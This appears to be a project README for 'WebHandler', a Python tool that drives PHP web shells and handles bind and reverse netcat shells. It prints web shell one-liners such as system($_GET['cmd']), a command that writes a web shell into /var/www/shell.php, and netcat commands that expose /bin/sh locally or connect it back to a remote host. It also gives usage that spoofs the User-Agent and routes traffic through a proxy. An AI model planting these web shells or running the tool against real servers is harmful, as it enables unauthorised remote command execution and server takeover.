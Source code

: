 # WebHandler #
---
A handler for PHP system functions & also an alternative 'netcat' handler
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and process:

    - PHP program execution functions _(e.g. `system`, `passthru`, `exec`, etc)_
    - Bind shell connections
    - Reserve shell connections

Another feature is to spoof the "User-Agent" field in the HTTP header. (`--random-angent`).

It also supports HTTP proxies (`--proxy http://<ip>:<port>`)

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`
    - `<?php echo exec($_POST['cmd']); ?>`

* WebHandler is a replacement for netcat connections.

    A example bind connection (_e.g. `nc -lvvp 1234 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 1234`
    - `nc -lvvp 1234`
    
    A example reverse connection (_e.g. `nc 127.0.0.1 4321 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 4321`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file:
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests _(e.g. a bind 'web based PHP' connection)_:
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection _(e.g. a reverse 'raw' connection)_:
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`.

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
